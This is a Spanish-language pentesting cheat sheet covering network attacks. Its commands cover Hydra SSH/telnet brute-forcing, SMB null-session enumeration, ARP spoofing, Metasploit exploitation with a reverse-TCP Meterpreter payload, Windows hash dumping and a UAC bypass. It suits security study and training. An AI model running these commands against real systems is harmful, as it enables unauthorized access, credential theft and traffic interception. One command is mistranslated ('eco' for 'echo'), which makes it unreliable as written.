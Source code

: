 # Network Attacks 
Un ataque a la red es un intento de obtener acceso no autorizado a la red de una organización, con el objetivo de robar datos o realizar otra actividad maliciosa.hace 6 días.

### Seclists

[SecLists](https://github.com/danielmiessler/SecLists) es una gran lista que contiene nombres de usuario comunes, contraseñas, URL, patrones de datos confidenciales, cargas útiles fuzzing, shells web y más.

```
apt-get install seclists
```

### Hydra
Hydra es un cracker de autenticación de red rápido y en paralelo que admite diferentes protocolos.
```
hydra -L <users file> -P <password file> -t 10 <target> ssh -s 22
hydra -L <users file> -P <password file> telnet://<target>
```

### Windows Shares
NetBIOS puede proporcionar parte de la siguiente información al consultar una computadora:
- Nombre de host
- Nombre NetBIOS
- Dominio
- Acciones de red

La explotación de recursos compartidos mal configurados puede conducir a:
- Divulgación de información
- Acceso a archivos no autorizado
- Fuga de información utilizada para montar un ataque objetivo

Los ataques de sesión nula se pueden utilizar para enumerar mucha información. Los atacantes pueden robar información sobre:
- Contraseñas
- Usuarios del sistema
- Grupos de sistemas
- Ejecutar procesos del sistema.
           
```          
# Comando de Windows más común para enumerar recursos compartidos de Windows
nbtstat -A <target>
```      

```
# Una vez que un atacante sabe que una máquina tiene el servicio de servidor de archivos en ejecución, puede enumerar los recursos compartidos usando NET VIEW
NET VIEW <target>
# Esto le dice a Windows que se conecte al recurso compartido IPC$ usando una contraseña y un nombre de usuario vacíos
NET USE \\<target IP address>\IPC$ "" /u:''
```

```
# Estos comandos se pueden usar en una máquina Linux para enumerar recursos compartidos de red
nmblookup -A <target>

# Smbclient puede hacer lo mismo que NET VIEW pero también muestra los recursos compartidos administrativos que están ocultos cuando se usan las herramientas estándar de Windows
smbclient -L //<target> -N (list shares without asking for password)
smbclient //<target>/share -N (mount share)

# enum4linux es un script PERL muy poderoso que se puede usar para enumerar recursos compartidos de Windows
enum4linux -a <target>
```

Por defecto, enum4linux realiza:

- Enumeración de usuarios
- Compartir enumeración
- Enumeración de grupos y miembros
- Extracción de política de contraseñas
- Detección de información del sistema operativo
- Una ejecución de nmblookup
- Extracción de información de la impresora

### ARP Poisoning/Spoofing (Dsniff)
El envenenamiento ARP es un poderoso ataque que puede usar para interceptar el tráfico en una red conmutada.
```
# le dice a mi máquina que reenvíe los paquetes interceptados a los hosts de destino reales
eco 1 > /proc/sys/net/ipv4/ip_forward

# arpspoof -i <interfaz> -t <objetivo> -r <host>
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11

# Ejemplo: para interceptar tráfico entre 192.168.1.5 y 192.168.1.6
eco 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.5 -r 192.168.1.6
# Luego ejecute Wireshark e intercepte el tráfico
```

### Metasploit
Metasploit es un marco de código abierto utilizado para pruebas de penetración y desarrollo de exploits.

Metasploit le brinda una amplia gama de exploits y vectores de ataque aportados por la comunidad que se pueden usar contra varios sistemas y tecnologías.

Flujo de trabajo básico para explotar un objetivo usando MSFConsole:

- Identificación de un servicio vulnerable
- Búsqueda de un exploit adecuado para ese servicio
- Cargando y configurando el exploit
- Cargando y configurando la carga útil que desea utilizar
- Ejecutar el código de explotación y obtener acceso a la máquina vulnerable

```
# Inicia la consola de metasploit
msfconsole

# Buscar todos los módulos por término
search <término de búsqueda>

# Establecer qué módulo usar
use /path/to/exploit

# Una vez que se está utilizando un módulo para mostrar todas las opciones para configurar
show options

# Use el comando set y el nombre de la configuración para configurar todas las configuraciones
set payload /path/to/payload
set RHOST <remote host>
set RPORT <remote port>

# Para ejecutar/explotar el módulo
run
exploit
```

Las cargas útiles son piezas de código inyectadas por un módulo de explotación en la máquina o el servicio de la víctima.

Un atacante utiliza una carga útil para obtener:

- Un sistema operativo Shell
- Una conexión VNC o RDP
- Un caparazón Meterpreter
- La ejecución de una aplicación proporcionada por el atacante

### Meterpreter
Meterpreter es un shell muy potente que se ejecuta en aplicaciones y servicios vulnerables de Android, BSD, Java, Linux, PHP, Python y Windows.

Meterpreter es más que un simple caparazón. Proporciona funciones avanzadas para recopilar información, transferir archivos entre las máquinas del atacante y la víctima, instalar puertas traseras y más.

Meterpreter le permite recopilar información sobre la máquina explotada y la red a la que está conectado. Puedes recuperar:

- Información sobre la máquina y el sistema operativo
- La configuración de red en uso
- La tabla de enrutamiento del host comprometido
- Información sobre el usuario que ejecuta el proceso explotado

```
# Puede configurar su carga útil para que sea un shell meterpreter antes de ejecutarlo
set payload <windows, linux, java etc>/meterpreter/reverse_tcp

# Una vez que tenga abierta una sesión de meterpreter, puede ponerla en segundo plano o usar Ctrl+z
background

# Use the sessions command to see all current running sessions
sessions
sessions -l

# Use el indicador -i y el número de sesiones para interactuar con él
sessions -i 1

# Comandos de recopilación de información útil una vez en meterpreter shell
sysinfo
ifconfig
route
getuid
getsystem

# El módulo hashdump vuelca la base de datos de contraseñas de una máquina con Windows
use post/windows/gather/hashdump
set session 1
run

# bypassuac es un módulo que puede usar para omitir el control uac en una máquina con Windows
use exploit/windows/local/bypassuac
show options
set session 1
exploit
getuid (now having administrative privileges)

# El comando de shell le brinda un shell de sistema operativo estándar
shell
```
           
